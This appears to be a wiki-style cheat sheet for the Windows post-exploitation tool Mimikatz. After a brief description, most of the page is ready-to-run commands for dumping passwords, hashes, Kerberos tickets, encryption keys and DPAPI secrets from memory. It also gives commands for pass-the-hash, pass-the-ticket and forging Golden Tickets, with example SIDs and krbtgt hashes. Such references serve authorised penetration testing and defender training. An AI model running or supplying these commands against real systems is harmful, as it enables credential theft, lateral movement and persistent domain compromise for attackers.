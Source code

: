 # Mimikatz

## About

Mimikatz is an incredibly effective offensive security tool developed by gentilkiwi. It is a post-exploitation tool that dumps passwords from memory, as well as hashes, PINs and Kerberos tickets. Other useful attacks are pass-the-hash, pass-the-ticket or building Golden Kerberos tickets. This makes post-exploitation lateral movement within a network easy for attackers. Mimikatz is a very powerful tool when attacking,or defending Windows Systems, it can also play with certificates or private keys, vault and more.

Mimikatz can only dump credentials and password hashes if it is executed from the context of a privilege user, like local admin.

### Links

​[Mimikatz github(source)](https://github.com/gentilkiwi/mimikatz)​

​[Mimikatz binaries](https://github.com/gentilkiwi/mimikatz/releases/tag/2.2.0-20210810)

## Usage

* Get debug rights (this or Local System rights is required for many Mimikatz commands).

```
privilege::debug
```

### sekurlsa

* Lists all available provider credentials. This usually shows recently logged on user and computer credentials.

```
sekurlsa::logonpasswords
```

```
sekurlsa::logonpasswords full
```

* Dump and export Kerberos tickets from memory

```
sekurlsa::tickets /export
```

* Pass the hash - PTH

```
sekurlsa::pth /user:USER /domain:DOMAIN /ntlm:NTLMHASH /run:cmd
```

### kerberos

* Dump and export Kerberos tickets from memory associated with active user sessions

```
kerberos::list /export
```

* Pass the ticket - PTT

```
kerberos::ptt c:\chocolate.kirbi
```

* Create a Golden Ticket

```
kerberos::golden /admin:USER /domain:DOMAIN /sid:S-1-5-21-130452501-2365100805-3685010670 /krbtgt:310b643c5316c8c3c70a10cfb17e2e31 /ticket:chocolate.kirbi
```

### ekeys

* Dump encryption keys from the system's memory

```
sekurlsa::ekeys
```

### DPAPI

* Extract and decrypt credentials protected by DPAPI (Data Protection API) from memory

```
sekurlsa::dpapi
```

### Golden/Silver Tickets

```
kerberos::golden /admin:administrateur /domain:chocolate.local /sid:S-1-5-21-130452501-2365100805-3685010670 /krbtgt:310b643c5316c8c3c70a10cfb17e2e31 /ticket:chocolate.kirbi
```

```
kerberos::golden /user:utilisateur /domain:chocolate.local /sid:S-1-5-21-130452501-2365100805-3685010670 /krbtgt:310b643c5316c8c3c70a10cfb17e2e31 /id:1107 /groups:513 /ticket:utilisateur.chocolate.kirbi
```

```
kerberos::golden /domain:chocolate.local /sid:S-1-5-21-130452501-2365100805-3685010670 /aes256:15540cac73e94028231ef86631bc47bd5c827847ade468d6f6f739eb00c68e42 /user:Administrateur /id:500 /groups:513,512,520,518,519 /ptt /startoffset:-10 /endin:600 /renewmax:10080
```

```
kerberos::golden /admin:Administrator /domain:CTU.DOMAIN /sid:S-1-1-12-123456789-1234567890-123456789 /krbtgt:deadbeefboobbabe003133700009999 /ticket:Administrator.kiribi
```

### TGT

* Interact with and manipulate Kerberos tickets

```
kerberos
```

```
kerberos::tgt
```

```
kerberos::list /export
```
